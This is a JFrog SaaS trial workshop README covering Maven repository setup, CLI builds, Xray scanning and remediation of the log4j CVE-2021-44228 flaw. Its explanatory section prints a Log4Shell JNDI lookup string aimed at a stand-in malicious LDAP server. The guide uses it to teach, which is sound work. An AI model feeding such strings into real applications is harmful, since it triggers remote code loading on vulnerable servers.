








# 🏗️ JFrog SaaS Trial Workshop Guide

Welcome to the **JFrog SaaS Trial Workshop!** 🎓  
This guide will help you get started with JFrog SaaS and practice building a Maven project.

## 📝 Prerequisites
- **Java** 8+
- **Maven** 3.6+

## 🚀 Getting Started

### 1. Apply for JFrog SaaS Trial
1. [Apply for JFrog SaaS Trial](https://jfrog.com/start-free/)  
Select "14-Day Free Trial", it will give you own JFrog Platform.

2. Ensure you have access to:
   - ✅ **JFrog Artifactory (SaaS)**
   - ✅ **JFrog Xray** 

### 2. Clone the Project
```bash
git clone https://github.com/JFrogChina/jfrog-poc-samples.git
cd jfrog-poc-samples/maven-sample
```

### 3. Create Maven Repositories

1. Log in to JFrog SaaS Platform
2. Click **Quick Repository Creation** (top-right)
3. Select **Maven** and create:
   - Local Repo: `sample-libs-snapshot-local` `sample-libs-release-local`
   - Remote Repo: `sample-maven-remote`
   - Virtual Repo: `sample-libs-snapshot` `sample-libs-release`

### 4. Configure JFrog CLI
1. [Download JFrog CLI](https://jfrog.com/getcli/)
2. Configure your environment:
   ```shell
   jf c add saas
   ```
   Follow prompts to enter:
   - JFrog Platform URL: `https://<YOUR_DOMAIN>.jfrog.io`
   - username
   - password or Reference Token (from Profile → Edit Profile → Generate an Identity Token)

### 5. Configure Maven
```shell
cd maven-sample
jf mvnc
```
This generates a `settings.xml` pointing to your SaaS repositories.

### 6. Build and Deploy
```shell
jf mvn clean install -f pom.xml --build-name=sample-maven-build --build-number=1
jf mvn deploy --build-name=sample-maven-build --build-number=1
jf rt bp sample-maven-build 1
```

### 7. Verify Deployment
- Check **Artifactory → Artifacts** for deployed files
- View build info in **Builds** section

### 8. Enable Xray Scanning
1. Go to **JFrog Xray → Index Resource**
2. Add to watch:
   - Repositories: `sample-maven-local`
   - Builds: `sample-maven-build`

### Understanding log4j Vulnerability
The log4j vulnerability (CVE-2021-44228) is detected because your project uses log4j-core 2.14.0. However, it's only exploitable when:

1. Using vulnerable logging patterns:
   ```java
   // Vulnerable
   logger.info("${jndi:ldap://malicious-server/exploit}");
   
   // Safe
   logger.info("User logged in: {}", username);
   ```

2. **AND** when:
   - Logging user-controlled input
   - Input contains `${jndi:ldap://...}` pattern
   - Application has network access to malicious server

This explains why Xray shows many false positives - vulnerabilities exist in code but aren't exploitable in your use case.

### 9. Remediate log4j Vulnerability

#### 9.1 Review Vulnerability
JFrog Advanced Security find out this log4j package is true positive and you can view the evidence for the details.


#### Review the False Positive Results

> **86% of critical/high vulnerabilities are false positives**



#### 9.2 Block Vulnerable Version

1. **Create Block Condition:**  
   Administrator → Curation Settings → Create Condition  
   

2. **Create Policy:**  
   

3. **Clean Cache:**
   ```bash
   rm -rf ~/.m2/repository/org/apache/logging/log4j/*
   ```

4. **Verify Block:**
   ```shell
   [main] ERROR org.apache.maven.cli.MavenCli - Failed to execute goal on project app-boot: Could not resolve dependencies for project com.example.jfrog:app-boot:war:1.0.2: Could not transfer artifact org.apache.logging.log4j:log4j-core:jar:2.14.0 from/to artifactory-release (https://demo.jfrogchina.com/artifactory/alex-maven): authorization failed for https://demo.jfrogchina.com/artifactory/alex-maven/org/apache/logging/log4j/log4j-core/2.14.0/log4j-core-2.14.0.jar, status: 403 Forbidden -> [Help 1]
   ```
   

5. **Fix: Update log4j Version**
   ```xml
   <dependency>
       <groupId>org.apache.logging.log4j</groupId>
       <artifactId>log4j-core</artifactId>
       <version>2.17.1</version>
   </dependency>
   ```

6. **Rebuild:**
   ```shell
   jf mvn clean
   jf mvn deploy --build-name=sample-maven-build --build-number=2
   jf rt bp sample-maven-build 2
   ```
The build should be successful and the issue was fixed.
> **Happy building and stay secure! 🚀**